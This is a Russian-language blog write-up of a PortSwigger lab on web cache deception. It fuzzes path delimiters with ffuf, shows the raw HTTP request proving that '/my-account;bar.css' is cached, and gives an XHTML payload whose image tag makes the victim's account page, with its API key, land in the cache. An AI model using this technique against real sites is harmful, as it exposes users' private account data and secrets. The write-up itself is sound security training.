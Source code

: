 ```yaml
---
title: "Exploiting path delimiters for web cache deception"
date: 2025-07-01
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/web-cache-deception/wcd-using-delimiter-discrepancies/web-cache-deception/lab-wcd-exploiting-path-delimiters"
classes: wide
---
```


Для прохождения лабы нужно найти `API`-ключи пользователя `carlos` с помощью **Web cache deception**. 

Для входа в свою учетную запись можно использовать креды `wiener`:`peter`.

```
https://0a750077032ed4f682a6e83000eb0023.web-security-academy.net/
```

## Solution

Залогинюсь в аккаунт.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_delimiters_for_web_cache_deception/1.png){: height="200" .align-center}

Аккаунт находится по следующему пути — `/my-account`. Добавлю строчку `bar` для проверки, выдаст ли мне ту же страницу.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_delimiters_for_web_cache_deception/2.png){: height="200" .align-center}

Ожидаемо, что нет. Попробую перебрать  [список разделителей](https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list), чтобы понять, какие из них подойдут. Для разнообразия воспользуюсь [`ffuf`](https://cu63.github.io/tools/ffuf/).

```bash
ffuf -w wordlists/webcache_delimeters.txt -u https://0a750077032ed4f682a6e83000eb0023.web-security-academy.net/my-accountFUZZbar -X GET
```

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_delimiters_for_web_cache_deception/3.png){: height="200" .align-center}

Предположу, что эти символы являются разделителями. Наиболее подходящим выглядит `;`. Использую его:

```
https://0a750077032ed4f682a6e83000eb0023.web-security-academy.net/my-account;bar
```

Получил ту же страницу ответа. Добавлю расширение `.css`, чтобы проверить, будет ли ответ кэшироваться. Для этого удобнее смотреть `Burp Suite`.

```http
GET /my-account;bar.css HTTP/2
Host: 0a750077032ed4f682a6e83000eb0023.web-security-academy.net
Cookie: session=qqr2NcH61DjJaM74YK4er7ewvpoSuduN
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Заголовок ответа:

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Server: Apache-Coyote/1.1
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 3833
```

Вижу в ответе `X-Cache: miss` и `Cache-Control`. Значит `.css` файлы кэшируются. Перейду в эксплойт сервер для создания нагрузки.

Так как я занимаюсь разработкой фишинговых нагрузок на работе, то мне не хочется использовать только `.html` и `.js` форматы. Поэтому вот вам немного флекса с `XHTML`:

```xhtml
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
    <title>Payload</title>
</head>
<body>
    <img src="https://0a750077032ed4f682a6e83000eb0023.web-security-academy.net/my-account;pwned.css" alt="Pwn" />
</body>
</html>
```

При открытии файла происходит обращение по адресу `https://0a750077032ed4f682a6e83000eb0023.web-security-academy.net/my-account;pwned.css` для получения картинки. Но что-то идет не так, и данные пользователя кэшируются. Вот незадача. Файл называют `expoit.xhtml`, в `Content-Type` выставляю значение `application/xhtml+xml`. На сайте это выглядит вот так:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_delimiters_for_web_cache_deception/4.png){: height="200" .align-center}

Отправляю запрос и проверяю страницу:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_delimiters_for_web_cache_deception/5.png){: height="200" .align-center}

`API`-ключ получен. Проверю его в верификаторе:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_delimiters_for_web_cache_deception/6.png){: height="200" .align-center}
